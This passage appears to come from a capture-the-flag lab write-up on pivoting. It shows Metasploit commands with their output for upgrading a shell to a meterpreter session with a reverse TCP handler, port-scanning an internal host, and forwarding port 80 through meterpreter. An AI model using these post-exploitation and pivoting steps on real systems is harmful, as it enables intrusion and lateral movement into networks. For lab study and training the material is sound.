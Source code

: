 We can also do Pivoting using Metasploit, for that get a meterpreter shell first.

```bash
# ^Z
Background session 3? [y/N]  y
msf5 exploit(multi/handler) > sessions -u 3
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [3]

[*] Upgrading session ID: 3
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.14.30:4433 
[*] Sending stage (980808 bytes) to 10.10.10.94
[*] Command stager progress: 100.00% (773/773 bytes)

meterpreter >
```

**Reference:**

- [https://www.offensive-security.com/metasploit-unleashed/pivoting/](https://www.offensive-security.com/metasploit-unleashed/pivoting/)

Use `scanner/portscan/tcp` this module and run the scan on which IP we need to.

```bash
msf5 auxiliary(scanner/portscan/tcp) > set RHOSTS 172.19.0.2
RHOSTS => 172.19.0.2
msf5 auxiliary(scanner/portscan/tcp) > set PORTS 1-1000
PORTS => 1-1000
msf5 auxiliary(scanner/portscan/tcp) > run
[+] 172.19.0.2:           - 172.19.0.2:80 - TCP OPEN
[*] 172.19.0.2:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

So all the results are same.

## Port Forwarding

So first I decided to check the Port 80, I used meterpreter to Port Fwd it.

```bash
meterpreter > portfwd --help
Usage: portfwd [-h] [add | delete | list | flush] [args]

OPTIONS:

    -L [opt](opt)  Forward: local host to listen on (optional). Reverse: local host to connect to.
    -R        Indicates a reverse port forward.
    -h        Help banner.
    -i [opt](opt)  Index of the port forward entry to interact with (see the "list" command).
    -l [opt](opt)  Forward: local port to listen on. Reverse: local port to connect to.
    -p [opt](opt)  Forward: remote port to connect to. Reverse: remote port to listen on.
    -r [opt](opt)  Forward: remote host to connect to.
meterpreter > portfwd add -l 80 -r 172.19.0.4 -p 80
[*] Local TCP relay created: :80 [-](-) 172.19.0.4:80
```
